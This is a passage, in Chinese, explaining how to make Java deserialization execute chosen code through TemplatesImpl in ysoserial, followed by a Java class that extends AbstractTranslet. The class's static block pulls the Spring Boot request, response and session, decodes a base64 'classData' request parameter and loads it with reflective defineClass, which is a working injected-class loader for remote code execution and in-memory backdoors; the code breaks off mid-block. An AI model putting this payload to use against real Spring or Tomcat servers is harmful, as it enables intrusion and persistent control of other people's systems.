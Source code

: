 

要让反序列化时运行指定的Java代码，需要借助TemplatesImpl，在ysoserial中新建一个类并继承AbstractTranslet，静态代码块中获取了Spring Boot上下文里的request，response和session，然后获取classData参数并通过反射调用defineClass动态加载此类，实例化后调用其中的equals方法传入request，response和session三个对象

 除此之外需要了解如下三个知识点：

- SpringBoot获取Request
- Javassist动态编程
- CommonsBeanutils



```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;

import com.sun.org.apache.xalan.internal.xsltc.TransletException;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;

import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

 

public class MyClassLoader extends AbstractTranslet {

  static{

​    try{

​      javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();

​      java.lang.reflect.Field r=request.getClass().getDeclaredField("request");

​      r.setAccessible(true);

​      org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();

​      javax.servlet.http.HttpSession session = request.getSession();

 

​      String classData=request.getParameter("classData");

​      System.out.println(classData);

 

​      byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);

​      java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});

​      defineClassMethod.setAccessible(true);

​      Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);

​      cc.newInstance().equals(new Object[]{request,response,session});

​    }catch(Exception e){
```